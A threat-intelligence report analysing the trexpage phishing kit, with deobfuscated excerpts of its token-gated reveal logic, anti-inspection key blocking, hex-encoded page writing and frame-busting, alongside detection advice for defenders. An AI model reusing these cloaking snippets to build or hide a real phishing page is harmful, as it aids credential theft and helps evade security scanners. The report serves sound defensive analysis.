



## Executive summary

A phishing kit we call trexpage, tracked from 28 October to 10 November 2026, was deployed on more than 200 sites, and all but one were confirmed malicious. It is built so that only the person a link was sent to ever sees the fake sign-in page. Everyone else, including security scanners, researchers and colleagues who open the link, is quietly sent to the brand's real sign-in page and sees nothing wrong.

What this means for defenders:

- **Tools that judge a link by what it shows will clear it.** Without the victim's personal token, every check lands on a legitimate page.
- **The kit actively resists inspection.** It blocks the usual shortcuts to the browser's inspection tools and breaks out of frames.
- **The way to catch it is by how it hides, not what it shows.** A blank page that redirects to a real brand, with inspection blocked, is the signal.

## Why we call it trexpage

The name comes from the kit's own code. The hidden box that holds its fake sign-in form has the id `trexpage`, and the links sent to victims carry their token in a parameter named `trexxx`. When the attacker's server approves a token, the kit reveals the page by switching that `trexpage` box on.

## Technical summary

trexpage is a client-side gate in front of a credential-phishing page. The decision to show the phish is made by the attacker's server, per victim, on every page load. Confirmed in the sample we took apart:

- **Delivery:** each victim gets a link carrying a token in the `trexxx` URL parameter.
- **Concealment:** the page body is hidden with CSS. The sign-in form is hex-encoded and written into the page at run time with `document.write(unescape(…))`, so the HTML as served contains no readable form.
- **Anti-analysis:** a frame-buster breaks out of any frame the page is loaded into and shows the page only as the top-level window. A separate script disables right-click, save (Ctrl+S), view source (Ctrl+U), copy (Ctrl+C), F6 and F12; it has no handler for Ctrl+Shift+I.
- **The gate:** a loader script reads the token and base64-decodes two addresses, the attacker's server and the real brand's sign-in page. It then sends the token to the server in an HTTP POST.
- **The server's answer:** one fixed string reveals the hidden `trexpage` box holding the form. Another sets the page title to "Does not Exist!" and sends the visitor to the real sign-in page.
- **No token:** the visitor goes straight to the brand's real sign-in page.
- **What it steals:** a password, on a re-prompt page ("Enter password … you need to verify your password"). The form has exactly two fields: a hidden one carrying the account identity, and the password. There is no field for a one-time code.

**Not yet established:**

- whether other builds ask for one-time codes (the analyzed sample has no field for one);
- where the password is finally sent: the submit code wasn't in the sample, and the server that answers the token isn't confirmed to receive passwords;
- whether a token works only once;
- whether the token is the victim's email address;
- whether the scripts change from one deployment to the next. They probably do, since the obfuscation is randomized per build, but only one sample was analyzed.

## Timeline



<p class="caption">Cydra Intel threat data · 28 Oct – 10 Nov 2026</p>

New sites carrying the kit appeared on every day of the period. The busiest stretch was 29 October to 3 November.

## How the kit hides



<p class="caption">How the kit decides who sees the phishing page · from the sample we took apart</p>

Step by step, from the sample we took apart:

1. **The page arrives blank.** Its body is switched off, and the sign-in form isn't in the page as readable text: it's scrambled and written out by a script. A plain download of the page shows almost nothing.
2. **It refuses to be inspected.** It breaks out of any frame it's loaded into. It switches off right-click and the keys for saving, viewing the source and copying, plus F6 and F12.
3. **It checks the link for a token.** Each victim's link carries one. Without it, the visitor goes straight to the brand's real sign-in page.
4. **It asks the attacker's server.** With a token, the page sends it to a server the attacker runs. The server's answer decides what happens: show the fake sign-in form, or change the page title to "Does not Exist!" and go to the real sign-in page.
5. **The victim types their password.** The page captures it. That much is confirmed in the sample.

## How it blocks analysis

The kit stacks several defenses. Each one defeats a different way of looking at it.

| Defense | What it does | What it defeats |
| --- | --- | --- |
| Hidden body | The page body is switched off with styling until the kit decides to show it | Screenshots and visual checks of the page as loaded |
| Scrambled form | The sign-in form is stored as hex codes and written out by a script at run time | Searching the downloaded page for a login form or brand text |
| Encoded addresses | The attacker's server and the real brand's page are stored base64-encoded in the script | Reading the destinations out of the code at a glance |
| Frame-buster | Loaded inside a frame, the page tries to break out; it shows itself only as the top-level page | Sandboxes and previews that load pages inside a frame |
| Inspection blocking | Right-click, Ctrl+S, Ctrl+U, Ctrl+C, F6 and F12 are switched off | A researcher opening the live page by hand |
| Per-victim token | The fake page appears only for a link carrying a token the attacker's server accepts | Anyone who opens the bare link, or has a token that's no longer accepted |
| Server-side decision | The attacker's server, not the page, decides whether to show the phish | Editing the page in the browser: the decision is made again on every load |
| Bounce to the real brand | Everyone turned away is sent to the brand's genuine sign-in page | Automated checks, which record a legitimate page and move on |

All of these are confirmed in the sample we took apart.

## Code samples

Short excerpts from the analyzed sample, deobfuscated. Server addresses and anything that identifies a target are replaced with `<redacted>`.

**1. Reading the token and asking the server** (the loader script):

```javascript
const p = new URLSearchParams(window.location.href);
var token = p.get("trexxx");
var c2    = window.atob("<redacted-b64>");   // the attacker's server
var brand = window.atob("<redacted-b64>");   // the brand's real page, /jsdisabled
if (token) { $.ajax({ url: c2, type: "POST", data: { trex: token }, success: handle }); }
else       { window.location.replace(brand); }   // no token: off to the real page
```

**2. The server's answer decides everything:**

```javascript
function handle(resp) {
  if (resp === "100110010011001") {            // deny
    document.title = "Does not Exist!";
    window.location.replace(brand);
  } else if (resp === "10011001001100111") {   // reveal
    document.getElementById("trexpage").style.display = "block";
  }
}
```

**3. Blocking inspection** (the anti-inspection script):

```javascript
$(document).bind("keydown", e => { if (e.ctrlKey && e.which == 83) { e.preventDefault(); return false; } }); // Ctrl+S
document.addEventListener("contextmenu", e => e.preventDefault());                                       // right-click
document.onkeydown = e => !(e.ctrlKey && [67, 85, 117, 123].includes(e.keyCode));                          // Ctrl+C, Ctrl+U, F6, F12
```

**4. The scrambled page** (as served). The first block decodes to the hidden wrapper that gives the kit its name; a second, much longer block decodes to the whole fake sign-in page:

```html
<script>document.write(unescape('%3C%68%74%6D%6C%20%69%64%3D%22%74%72%65%78%70%61%67%65%22%20%73%74%79%6C%65%3D%64%69%73%70%6C%61%79%3A%6E%6F%6E%65%3E'))</script>
<!-- decodes to: <html id="trexpage" style=display:none> -->
```

**5. Breaking out of frames:**

```javascript
if (top != self) { try { top.location.replace(self.location.href); } catch (e) {} }
else { document.write('<style>body{display:block !important;}</style>'); }
```

## What the victim sees

Without a valid token there is nothing to see: everything sits inside the hidden `trexpage` wrapper, and the script sends the visitor to the brand's real page.

The image below is the hidden page, decoded offline from the analyzed sample and shown without its styling (the kit's stylesheet and logo weren't in the sample). The brand's name and logo are blurred. It is a password re-prompt: "Enter password. Because you're accessing sensitive info, you need to verify your password."



## Getting past it

The whole fake page ships inside the page itself, scrambled. You don't need a victim's token, or to contact the attacker's server, to see it.

**Tested on the analyzed sample:**

1. Save the page as served, without running it.
2. URL-decode the `document.write(unescape(…))` blocks offline. They contain the full sign-in page.
3. Read the two scripts statically, by resolving their obfuscated string arrays (`_$_<hex>`). That gives the token parameter, the encoded server and bounce addresses, and the two answer strings.

None of this contacts the attacker's server or shows the attackers that someone is looking.

**Not tested by us:** watching a live run. That would mean an isolated machine, a proxy that strips the anti-inspection script, and a token in the link. It isn't needed to see the lure, and any request with a token reaches the attacker's server.

## Detection advice

Our automated checks never saw this kit's sign-in page: without a victim's token, every visit ended on the real brand's page. Defenses that wait to see the phishing page had nothing to act on.

- **Treat a redirect to the real brand as a signal.** A look-alike site that sends you straight to the genuine sign-in page is worth a closer look, not a pass.
- **Look for the hiding, not the page.** A page that arrives blank, blocks right-click and the inspection shortcuts, and breaks out of frames is how this kit hid its page.
- **Treat brand names on free hosting as suspect.** Every site carrying this kit was on free hosting, most under long random names.
- **Tell users not to trust a link because it opened a real page.** In this kit, the same link shows the real page to everyone except the intended victim.

## About the data

The figures come from Cydra Intel's own threat data for 28 October to 10 November 2026, and from one sample of the kit we took apart.

- **The kit** is counted on a site when its page code matched the kit's loader and cloak code. Our analysis ties that loader to trexpage with high confidence: both are built with the same code obfuscator, and the loader is the kit's front stage. We didn't re-examine every site by hand. Brand themes come from the site names.
- **Confirmed malicious** means labeled malicious after review.
- **What we didn't see:** the stolen password's final destination wasn't captured, and the sample showed no request for a one-time code. Whether a token works only once isn't confirmed either.
